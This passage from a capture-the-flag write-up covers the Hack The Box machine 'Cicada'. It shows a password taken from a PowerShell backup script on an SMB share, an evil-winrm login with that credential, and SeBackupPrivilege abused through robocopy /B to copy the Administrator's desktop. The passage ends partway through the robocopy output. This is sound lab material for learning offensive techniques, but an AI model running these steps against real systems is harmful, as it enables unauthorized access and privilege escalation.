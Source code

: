 ```
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024
```

Looking through this ps1 script we found emily’s password.

After finding the password we tried logging in using ```evil-winrm``` with the password found in the script:

```
evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Note: Evil-WinRM is used because it’s a tool specifically for interacting with Windows Remote Management (WinRM) services, which is often available on Windows Server environments. It's one of the best tools for post-exploitation on Windows, as it provides a stable command shell (like SSH for Linux), allowing you to execute commands, upload/download files, and even perform privilege escalation tactics directly from a WinRM session.

If ```emily.oscars``` has the necessary privileges, this could serve as our foothold into the system. Once connected, we will gain full control and can begin exploring for further escalation opportunities. This presents a perfect chance to retrieve sensitive files or delve deeper into the system. Shortly after, I successfully grabbed the user flag located at ```C:\Users\emily.oscars.CICADA\Desktop```.

For privilege escalation, we first began by listing our current privileges:

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can see the ```SeBackupPrivilege```, which can be leveraged to escalate our privileges. Here is a [blog post](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/) with more information regarding this.

Next, by using the following command we could copy the ```root.txt``` file to ```C:\Users\emily.oscars\Desktop\root.txt```.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> robocopy C:\Users\Administrator\Desktop C:\Users\emily.oscars\Desktop /B /E

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Sunday, September 29, 2024 2:54:23 PM
   Source : C:\Users\Administrator\Desktop\
     Dest : C:\Users\emily.oscars\Desktop\

    Files : *.*

  Options : *.* /S /E /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30

------------------------------------------------------------------------------
```